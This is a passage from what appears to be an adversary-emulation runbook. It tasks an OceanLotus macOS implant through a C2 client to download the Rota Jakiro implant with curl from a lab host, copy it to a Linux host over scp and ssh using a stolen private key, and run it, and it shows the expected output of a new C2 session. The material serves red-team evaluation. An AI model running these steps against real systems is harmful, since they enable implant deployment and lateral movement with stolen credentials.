       Task the implant

      ```
      ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_run_cmd", "arg":"curl 10.90.30.26:8000/rota -o /tmp/rota"}'
      ```

      Verify the file downloaded

      ```
      ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_run_cmd", "arg":"ls -la /tmp/rota"}'
      ```

      End Troubleshooting

   </details>

3. Task OSX.OceanLotus to SCP the Rota Jakiro implant from the macOS host to the Linux
   host
   ```
   ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_run_cmd", "arg":"scp -i /Users/hpotter/.ssh/id_rsa /tmp/rota hpotter@viserion.com@10.90.30.7:/tmp/rota"}'
   ```
   Expected Output:
   ```
   [SUCCESS] 2023/08/24 19:29:43 Successfully set task for session: b6dbd70f203515095d0ca8a5ecbb43f7
   ...
   [Task] 2023/08/24 19:29:52
   [SUCCESS] 2023/08/24 19:29:52 Successfully set task output.
   ```
4. Give Rota Jakiro executable permissions
   ```
   ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_run_cmd", "arg":"ssh -i /Users/hpotter/.ssh/id_rsa -t hpotter@viserion.com@10.90.30.7 \"chmod +x /tmp/rota\""}'
   ```
   Expected Output:
   ```
   [SUCCESS] 2023/08/24 19:29:43 Successfully set task for session: b6dbd70f203515095d0ca8a5ecbb43f7
   ...
   [Task] 2023/08/24 19:29:52
   [SUCCESS] 2023/08/24 19:29:52 Successfully set task output.
   ```

5. Use OceanLotus to Execute Rota Jakiro on the Linux host using ssh & confirm registration.
   ```
   ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_run_cmd", "arg":"ssh -i /Users/hpotter/.ssh/id_rsa -t hpotter@viserion.com@10.90.30.7 \"nohup /tmp/rota&2>/dev/null; sleep 5; pkill rota;rm nohup.out\""}'
   ```
   Expected Output:
   ```
   [SUCCESS] 2023/08/24 19:31:44 Successfully set task for session: b6dbd70f203515095d0ca8a5ecbb43f7
   ...
   [INFO] 2023/08/24 19:31:57 Received first-time beacon from 01020304. Creating session...

   [SUCCESS] 2023/08/24 19:31:57 *** New session established: 01020304 ***
   +----------+------------+----------+------+-----+------+
   |   GUID   | IP ADDRESS | HOSTNAME | USER | PID | PPID |
   +----------+------------+----------+------+-----+------+
   | 01020304 |            |          |      |   0 |    0 |
   +----------+------------+----------+------+-----+------+

   [INFO] 2023/08/24 19:31:57 Current Directory:
   [INFO] 2023/08/24 19:31:57 Successfully added session.
   [SUCCESS] 2023/08/24 19:31:57 Successfully created session for implant 01020304.
   ```